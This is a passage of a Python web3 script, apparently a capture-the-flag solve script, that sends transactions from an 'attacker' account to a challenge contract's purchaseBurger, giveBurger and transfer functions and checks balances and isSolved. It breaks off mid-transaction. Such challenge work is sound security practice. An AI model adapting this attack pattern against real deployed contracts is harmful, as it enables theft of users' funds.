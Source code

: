 ```python
        if receipt["status"] == 1:
            print("Transaction succeeded.")
        else:
            print("Transaction failed.")

        owner = contract.functions.owner().call()
        print(contract.functions.getBalance(owner).call())
        print(contract.functions.getBalance(attacker.address).call())
        print(contract.functions.isSolved().call())
        total_supply = contract.functions.totalSupply().call()
        print(f"Current totalSupply: {total_supply}")
    exit()

elif stage == 1:
    owner = contract.functions.owner().call()

    tx = contract.functions.purchaseBurger().build_transaction(
        {
            "from": attacker.address,
            "gas": 1000000,
            "nonce": w3.eth.get_transaction_count(attacker.address),
        }
    )

    # tx = contract.functions.giveBurger(attacker.address).build_transaction(
    #     {
    #         "from": attacker.address,
    #         "gas": 1000000,
    #         "nonce": w3.eth.get_transaction_count(attacker.address),
    #     }
    # )

    # tx = contract.functions.transfer(attacker.address, 1).build_transaction(
    #     {
    #         "from": attacker.address,
    #         "gas": 1000000,
    #         "nonce": w3.eth.get_transaction_count(attacker.address),
    #     }
    # )

    signed_tx = attacker.sign_transaction(tx)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)

    receipt = w3.eth.get_transaction_receipt(tx_hash)
    if receipt["status"] == 1:
        print("Transaction succeeded.")
    else:
        print("Transaction failed.")

    print(contract.functions.getBalance(owner).call())
    print(contract.functions.getBalance(attacker.address).call())
    print(contract.functions.isSolved().call())
    total_supply = contract.functions.totalSupply().call()
    print(f"Current totalSupply: {total_supply}")

    new_account = w3.eth.account.create()
    tx = {
        "to": new_account.address,
        "value": w3.to_wei(1, "ether"),
        "gas": 21000,
        "gasPrice": w3.to_wei("20", "gwei"),
        "nonce": w3.eth.get_transaction_count(attacker.address),
```